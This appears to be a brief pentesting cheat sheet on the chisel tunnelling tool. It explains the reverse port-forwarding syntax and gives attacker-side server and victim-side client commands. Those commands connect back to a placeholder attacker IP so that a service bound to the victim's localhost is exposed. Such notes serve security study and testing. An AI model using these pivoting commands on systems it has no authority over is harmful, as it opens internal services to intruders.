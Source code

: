 # format remote string

```
<local-port> :<remote-host> :<remote-port>   #local-port = port from client
```

Listen on local port and forward it to remote host to remote port

```
R:<local-port> :<remote-host> :<remote-port>   #local-port = listen on local-port on server
```

Listen on local port on server and forward it to remote host on remote port

# listen on server port 135 and forward packets to client on port 9999

```
chisel.exe client so.me.i.p:1337 R:135:localhost:9999
```

# start server

```
chisel server -p 8888 --reverse --host 0.0.0.0
```

# examples 

## service running on victim but only listen on 127.0.0.1:1337

The following example forwards the service running on 127.0.0.1:1337 to the attacker on port 8080.

### attacker 

```bash
chisel server -p 9999 --host 0.0.0.0 --reverse
```

### victim

Move chisel binary to victim.

```bash
./chisel client <attack_ip>:9999 R:8080:127.0.0.1:1337
```
